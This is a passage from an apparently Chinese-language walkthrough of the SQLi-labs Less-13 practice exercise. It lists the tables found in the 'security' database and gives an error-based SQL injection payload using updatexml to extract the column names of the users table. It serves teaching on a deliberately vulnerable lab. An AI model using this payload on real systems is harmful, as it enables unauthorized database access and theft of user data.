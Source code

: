 ![Less-13_10](./img/Less-13_10.PNG)

爆破出所有的数据表：`emails,referers,uagents,users`



+ 注入如下语句爆破列名

~~~ shell
1') union select 1,updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users'),0x7e),1)#
~~~

![Less-13_11](./img/Less-13_11.PNG)
